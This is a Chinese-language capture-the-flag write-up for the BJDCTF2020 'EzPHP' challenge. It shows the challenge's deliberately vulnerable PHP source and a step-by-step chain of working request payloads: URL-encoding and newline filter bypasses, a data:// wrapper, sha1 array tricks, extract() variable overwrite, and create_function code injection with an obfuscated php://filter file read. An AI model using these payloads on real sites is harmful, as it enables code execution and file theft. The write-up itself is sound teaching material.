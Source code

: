 # \[BJDCTF2020]EzPHP

## \[BJDCTF2020]EzPHP

## 考点

* base32
* `$_SERVER['QUERY_STRING']`不进行URL解码，用`URL编码`绕过
* `$_GET['debu']`要是aqua\_is\_cute但又不能是aqua\_is\_cute，用`%0a`换行符绕过
* `$_REQUEST`中参数值不能出现字母，<mark style="color:orange;">`$_REQUEST`</mark><mark style="color:orange;">是优先读取POST传参再读取GET传参，可以先POST再GET</mark>
* `file_get_contents($file)`一般配合`php://input`，还可以配合`data://text/plain,debu_debu_aqua`
* `$code('', $arg);`对应`create_function`
* 代码执行可以看一下`get_defined_vars()`

## wp

F12给了一段密文`GFXEIM3YFZYGQ4A=`

目测是base家族的，64，32，16等等试一下，发现是base32，解码是`1nD3x.php`

给了源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

一点一点看，`$_SERVER['QUERY_STRING']`是get方式传入的内容，它不会进行URL解码，可以用URL编码可以绕过这个限制

然后`$_GET['file']`不能有`http(s)`，`$_GET['debu']`要是`aqua_is_cute`，这个可以用换行符绕过

`?deb%75=aq%75a_is_c%75te%0a&file=a`

![](<../../.gitbook/assets/image (5) (1) (1) (1).png>)



然后是\_REQUEST中参数值不能出现字母，\_REQUEST是优先读取POST传参再读取GET传参，可以先POST再GET

```
GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=a

POST file=1&debu=1
```

寄了，BUUOJ环境有问题，本地复现吧。访问`1nD3x.php?file=***`，明显应该到`Aqua is the cutest five-year-old child in the world!`那里的`die`的，但是得到的回显还是`fxck you! I hate English!`

接着是要满足`file_get_contents($file)`的结果为`debu_debu_aqua`，一般这种可以用`php://input`，但是这里已经有了POST的内容，可以换成data伪协议。

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61
POST file=1&debu=1
```

然后是经典的绕HASH，`sha1($shana) === sha1($passwd) && $shana != $passwd`，直接传数组即可

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2

POST file=1&debu=1
```

然后看到`extract($_GET["flag"]);`，存在变量覆盖。最后一段代码是对`$code`和`$arg`进行操作，但是题目并不能直接传参，那就是要用变量覆盖进行传参。

然后`if(preg_match('/^[a-z0-9]*$/isD', $code)`是code中不能有字母数字，在后面一个正则过滤了很多关键字，这样`$arg`就不是很好绕过了

最后的`$code('', $arg);`是`create_function`，这个出现了很多次了。

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}var_dump(a);//



GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67%5B%63%6F%64%65%5D=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67%5B%61%72%67%5D=%7D%76%61%72%5F%64%75%6D%70%28%61%29%3B%2F%2F
POST file=1&debu=1
```

![](<../../.gitbook/assets/image (23) (1) (1) (1).png>)

成功输出，最后是怎么获取flag。代码执行没有过滤call\_user\_func，文件包含没有过滤require，目录扫描没有过滤DirectoryIterator

其实一开始想的是无参RCE和取反，后面看了wp一下，在get\_defined\_vars()中看到一个奇怪的变量`ffffffff11111114ggggg`，意思就是flag在`rea1fl4g.php` ，应该是文件读取了。

```
require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php)
```

最后用取反绕过滤

```
<?php
echo urlencode(~'php://filter/read=convert.base64-encode/resource=rea1fl4g.php');

// %8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F

require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F))
```

最后的payload

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67%5B%63%6F%64%65%5D=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67%5B%61%72%67%5D=%7D%72%65%71%75%69%72%65%28%7E%28%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F%29%29%3B%2F%2F
POST file=1&debu=1
```

解码即可
